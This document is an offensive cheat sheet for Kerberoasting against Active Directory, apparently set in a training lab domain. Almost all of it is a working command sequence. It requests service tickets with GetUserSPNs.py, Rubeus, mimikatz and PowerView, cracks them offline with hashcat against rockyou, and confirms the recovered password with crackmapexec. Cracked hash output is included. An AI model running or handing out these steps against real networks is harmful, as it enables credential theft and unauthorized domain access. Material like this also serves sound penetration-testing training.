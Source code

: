 # Kerberoasting

When we send TGS-REQ to a KDC, it does not check if we have access to the service and provide us a TGS encrypted with the service account password hash.

A service account is an account that has at least one SPN attribute set.

**Kerberoasting technique = getting TGS from all accounts with SPN and crack it offline the recover password**

In most situations, services accounts are machine accounts, which have very complex, long, and random passwords. But if a service account, with a human-defined password, has a SPN set, attackers can request a ST for this service and attempt to crack it offline.

0\. Prerequisites :

* account's cleartext password (or NTLM hash) AND
* shell in the context of a domain user account OR
* SYSTEM level access on a domain-joined host

## From Linux

1. Listing all accounts with SPN

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

2. Request all TGS of SPN accounts

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

3. Request TGS of specific account

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

4. Saving TGS in output format

```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

5. Crack TGS offline

```
sudo hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force


$krb5tgs$23$*sqldev$INLANEFREIGHT.LOCAL$INLANEFREIGHT.LOCAL/sqldev*$81...:database!
```

6. Testing Authentication against a Domain Controller&#x20;

```
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```

## From Windows

### 1st method using Rubeus

From a domain-joined machine :

```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

Crack it offline :&#x20;

```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### 2nd method using mimikatz

1. Enumerating SPNs

```
setspn.exe : setspn.exe -Q /
```

2. Targeting a Single User

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

3. Retrieving all tickets

```
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

4. Extracting ticktes from memory

```
mimikatz # base64 /out:true
mimikatz # kerberos::list /export  
```

5. Crack it offline

```
echo "<base64 blob>" |  tr -d \\n 
cat encoded_file | base64 -d > sqldev.kirbi
python2.7 kirbi2john.py sqldev.kirbi
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat

Cracking the Hash with Hashcat
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
$krb5tgs$23$*sqldev.kirbi*$81314...057feeab:database!
```

### 3rd method using Powerview

1. Using PowerView to Extract TGS Tickets&#x20;

```
Import-Module .\PowerView.ps1 
Get-DomainUser * -spn | select samaccountname
```

2. Using PowerView to Target a Specific User&#x20;

```
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

3. Exporting All Tickets to a CSV File&#x20;

```
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

4. Viewing the Contents of the .CSV File&#x20;

```
cat .\ilfreight_tgs.csv
```

